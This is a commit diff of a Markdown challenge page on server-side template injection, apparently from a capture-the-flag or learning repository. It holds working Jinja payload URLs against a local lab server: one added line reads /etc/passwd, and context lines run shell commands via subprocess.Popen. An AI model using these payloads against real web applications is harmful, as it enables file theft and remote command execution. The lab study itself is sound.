

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -57,6 +57,14 @@ http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f
 
 - Read a local file
 
+
+PAYLOAD:
+```
+http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
+```
+
+- Run a command
+
 ```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here
 
 ```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568]}}``` : ```<class 'subprocess.Popen'>``` : selecting the popen subprocess
@@ -70,9 +78,6 @@ PAYLOAD:
 http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}
 ```
 
-- Run a command
-
-
 - Send the contents of etc pass to  awebhook
 
 
````
